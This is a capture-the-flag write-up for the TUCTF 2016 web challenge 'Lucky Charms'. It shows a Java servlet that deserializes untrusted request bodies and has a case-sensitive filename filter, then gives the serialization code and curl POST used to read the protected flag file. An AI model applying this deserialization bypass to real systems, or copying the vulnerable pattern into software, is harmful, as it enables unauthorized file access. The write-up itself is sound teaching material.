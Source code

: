 ```yaml
---
title: 'TUCTF 2016: Lucky Charms (web 150)'
date: 2016-05-14 00:00:00 Z
categories:
- writeup
tags:
- cat/web
- lang/java
layout: post
author: kree
---
```


* **Category:** web
* **Points:** 150
* **Description:** 

> Nothing like cereal and coffee to start your day!

## Writeup

The given website gives you the following hint in the html source:

```html
<!-- <a href="/?look=LuckyCharms.java"></a> -->
```

This `look` parameter lets to peek into the servlets source code:

```java
abstract class OSFile implements Serializable {
  String file = "";
  abstract String getFileName();
}

class WindowsFile extends OSFile  {
  public String getFileName() {
    //Windows filenames are case-insensitive
    return file.toLowerCase();
  }
}

class UnixFile extends OSFile {
  public String getFileName() {
    //Unix filenames are case-sensitive, don't change
    return file;
  }
}

...

public class NewServlet extends HttpServlet {

  ...

  public void doGet(HttpServletRequest request, HttpServletResponse response)
            throws ServletException, IOException {
    doPost(request, response);
  }

  public void doPost(HttpServletRequest request, HttpServletResponse response)
            throws ServletException, IOException {
      
      
    response.setContentType("text/html");
    PrintWriter out = response.getWriter();
    
    OSFile osfile = null;
    try {
      osfile = (OSFile) new ObjectInputStream(request.getInputStream()).readObject();
    } catch (Exception e) {
      //Oops, let me help you out there
      osfile = new WindowsFile();
      if (request.getParameter("look") == null) {
        osfile.file = "charms.html";
      } else {
        osfile.file = request.getParameter("look");
      }
    }

    String f = osfile.getFileName().replace("/","").replace("\\","");
    if (f.contains("flag")) {
      //bad hacker!
      out.println("You'll Never Get Me Lucky Charms!");
      return;
    }

    try {
      Path path = Paths.get(getServletContext().getRealPath(f.toLowerCase()));  
      String content = new String(java.nio.file.Files.readAllBytes(path));
      out.println(content);
     } catch (Exception e) {
        out.println(e);
        out.println("Nothing to see here");
     }
  }
  ...
}
```

Basically, we want to use the `look` parameter to extract the content of the file named `flag`. However, there is a check in place that prevents us from spying on the file directly. Our challenge is to get past that check. We notice that the string comparison is case sensitive, but when retrieving the file content, the path string gets transformed to lower case. If we manage `osfile.getFileName()` to return the string `Flag` (or any other String with mixed casing), we should be fine.

If we take another look at the subclasses of OSFile, we notice that the class `WindowsFile` converts its filename to lower case, but `UnixFile` doesn't. For our purpose we would use the latter.

Another observation is the fact that both `http` methods `GET` and `POST` are being handled by `doPost`, but until now we only passed `look` as a `GET` parameter. We need to pass a serialized version of the `OSFile` object with the body of our request. Otherwise we trigger an `EOFException` when invoking `request.getInputStream()` and end up with a `WindowsFile` object.

We can generate a unix object with the following lines:

```java
OSFile unixFile = new UnixFile();
unixFile.file = "Flag";
new ObjectOutputStream(System.out).writeObject(unixFile);
```
We'll store the output in a file and use `curl` to pass the `UnixFile` object over a `POST` request, which yields the flag. 

This challenge was solved by kree and paierlep. 

```
curl 'http://146.148.10.175:1033/LuckyCharms' -H 'Accept-Encoding: gzip, deflate, sdch' -H 'Accept-Language: en-US,en;q=0.8' -H 'Upgrade-Insecure-Requests: 1' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Connection: keep-alive' --compressed -X POST --data-binary @object_serialized
```
